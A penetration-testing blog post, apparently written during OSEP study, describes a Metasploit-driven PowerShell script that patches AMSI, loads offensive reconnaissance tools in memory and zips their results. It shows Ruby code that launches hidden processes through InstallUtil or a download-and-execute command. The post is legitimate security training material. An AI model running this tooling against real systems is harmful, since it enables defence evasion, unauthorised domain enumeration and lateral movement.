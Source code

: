 ```yaml
---
title: "Automate the Reconnaissance Phase"
date: 2021-12-02T07:43:03Z
categories: ["Programming", "Security"]
tags: ["OSEP", "PEN300", "Powershell", ".NET Assembly", "C#", "Ruby"]
---
```


If you have been reading my OSEP (PEN300) post series, you know that I love automating things, reconnaissance phase is one of the repetitive tasks that you do for each machine you compromise right.

In this post, I am going to share with you how I took advantage of the existing scripts and tools to create let's say a reconnaissance script bundle. 

The script is written into Powershell, the language has a rich API and special when it allow us to load .NET Assembly this make it super powerful and the right tool for the task. 

Before we go any further, there is a little caveat here, the script was made for Windows machines only. That being said the way I wrote the script has the following workflow:

- The first step the script does is to patch AMSI
- Checks for writable location so it can save scans result files
- Verify if the script has been run if so it bails
-  Loads in memory the following scripts and tools
	-  PowerView.ps1 (Only if the machine is Domain-Joined)
	-  SharpHound.ps1 (Only if the machine is Domain-Joined)
	-  PowerUPSQL.ps1
	-  PriveCheck.ps1
	-  HostRecon.ps1
	-  WinPEASx64.exe

- Each loaded tools gets executed and its result is save into a file
- Create a ZIP file contain result files in this format username@machine.recon.zip

This script gets executed for each new Meterpreter session, the way the script gets executed depends of the environment, if the for instance the current session has Powershell restricted language enabled the script get executed by leveraging InstallUtils otherwise it gets run from session shell.

```ruby
def is_restricted_language?
	cmd = $powershell.execute_command('$ExecutionContext.SessionState.LanguageMode')
	return true if cmd.include? 'ConstrainedLanguage'
	false
end

def start_powershell_recon_script
	process = nil
	if is_restricted_language?
		print_status("\tPowershell restricted language is enabled")
		process = session.sys.process.execute('C:\\Windows\\System32\\cmd.exe',
		generate_cmd_arg_installutils_instance('recon.exe'), { 'Hidden' => true })
	else
		process = session.sys.process.execute('C:\\Windows\\System32\\cmd.exe',
		generate_cmd_arg_pwsh_download_exec('recon.ps1'), { 'Hidden' => true })
	end
	pid = process.pid
	if pid
		print_good("\tPowershell recon script started running in background: PID #{pid}")
	else
		print_error("\tFailed starting powershell recon script")
	end
end
```

Having this in place, made life more easier, also the advantage of this is that each time you compromise a new credentials, execute an MSF agent so it runs the BloodHound AD reconnaissance, which comes really handy at the lateral movement phase.  

Please note that this script is noisy and not OPSEC safe, it was written to do the heavy lifting for us in internal pentest engagement not for red team engagements.

You can find the full Powershell script here: 

https://gist.github.com/tahadraidia/fca2d202ade39f5296123c69597eedd3

References:
- https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
- https://github.com/NetSPI/PowerUpSQL
- https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1
- https://github.com/dafthack/HostRecon/blob/master/HostRecon.ps1
- https://github.com/itm4n/PrivescCheck  
- https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS